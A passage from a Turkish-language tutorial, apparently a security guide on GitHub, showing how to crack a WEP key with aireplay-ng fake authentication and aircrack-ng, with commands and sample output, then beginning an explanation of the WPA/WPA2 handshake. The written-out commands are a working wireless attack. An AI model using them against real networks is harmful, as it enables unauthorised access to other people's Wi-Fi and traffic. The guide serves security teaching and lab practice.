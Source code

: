 Bu tarama sonucunda WEP şifresini kırabilmemiz için tüm bilgileri elde etmiş oluyoruz. Elimizde BSSID, kablosuz kanalı, şifreleme algoritması ve SSID var. Bu bilgileri WEP kırmamız için lazım olan paketleri toplamak için kullanacağız. Aşağıdaki bilgisayarınıza göre değişir, ama başlıca:
* __Base Station MAC Adress:__ 00:23:69:F5:B4:2B
* __SSID:__ linksys
* __Channel:__ 6

##### Paket Enjekte Etme

Aşağıda sahte kimlik doğrulama ile paket enjektlemeyi göstermekte:
* `-1` ile Aireplay-ng aracına sahte kimlik kullanmasını söylüyoruz
* `0` yeniden iletim zamanı
* `-e` SSID; bu durumda _linksys_
* `-a` giriş yapmak istediğimiz erişim noktasının MAC adresi
* `-h` kartımızın MAC adresi (cihazın üstünde bulunur)
* `mon0` sahte kimlik doğrulamada kullanılacak arayüzü

Aireplay-ng sorgusunu gönderdikten sonra, doğrulamanın başarı olduğna dair _Association successful:-)_ mesajını alırız.

```ShellSession
root@kali:~# aireplay-ng -1 0 -e linksys -a 00:23:69:F5:B4:2B -h 00:C0:CA:1B:69:AA mon0 
20:02:56 Waiting for beacon frame (BSSID: 00:23:69:F5:B4:2B) on channel 6
20:02:56 Sending Authentication Request (Open System) [ACK] 20:02:56 Authentication successful
20:02:56 Sending Association Request [ACK]
20:02:56 Association successful :-) (AID: 1)
```

##### Anahtar Kırma

64-bit WEP anahtarını kırabilmemiz için 250.000 IV toplamamız gerekmektedir. Paketleri elde ettikten sonra, Aircrack-ng programına topladığımız IV'leri doğru WEP anahtarına çevirmesini söyleriz. 

```ShellSession
root@kali:~# aircrack-ng -b 00:23:69:F5:B4:2B book*.cap
Opening book-01.cap
Attack will be restarted every 5000 captured ivs. 
Starting PTW attack with 239400 ivs.
KEY FOUND! [ 2C:85:8B:B6:31 ]
Decrypted correctly: 100%
```

#### WPA/WPA2 Anahtarını Kırma

WPA şifre kırma işlemine geçmeden önce biraz size el sıkışmasından (handshake) olayından bahsetmem gerekir. WPA korumalı ağlarda istemci ve AP (Access point=erişim noktası) her oturum için PTK (Pairwise Transient Key) adı verilen bir anahtar oluşturup aralarındaki tüm trafiği bu anahtar ile şifreler. PTK, SSID ANounce (AP’den gelen bir kerelik rastgele bir sayı), SNounce (istemciden gelen bir kerelik rastgele bir sayı), AP MAC adresi, istemci MAC adresi ve ağ parolası kullanılarak oluşturulur. WPA/WPA2 kullanılan bir ağın parolası bilinse bile bir istemcinin trafiğini deşifre etmek için oturumun başlangıcındaki el sıkışmaya ihtiyaç duyulmasının sebebi de budur.

İşlemlere geçmeden önce kullanabileceğimiz bazı programlar şu şekildedir:
* __airodump:__ 802.11 için Paket Yakalama
* __aireplay:__ 802.11 için Paket Enjeksiyonu
* __aircrack:__ static WEP ve WPA Anahtar Kırma


[wpa1]: ../resim/ataklar/wpa/1.jpg
[wpa2]: ../resim/ataklar/wpa/2.jpg
[wpa3]: ../resim/ataklar/wpa/3.jpg
[wpa4]: ../resim/ataklar/wpa/4.jpg
[wpa5]: ../resim/ataklar/wpa/5.jpg
[wpa6]: ../resim/ataklar/wpa/6.jpg
[wpa7]: ../resim/ataklar/wpa/7.jpg
[wpa8]: ../resim/ataklar/wpa/8.jpg
[KAYNAK]: http://www.agguvenligi.net/2014/06/wifi-wpa-wpa2-parola-kirma.html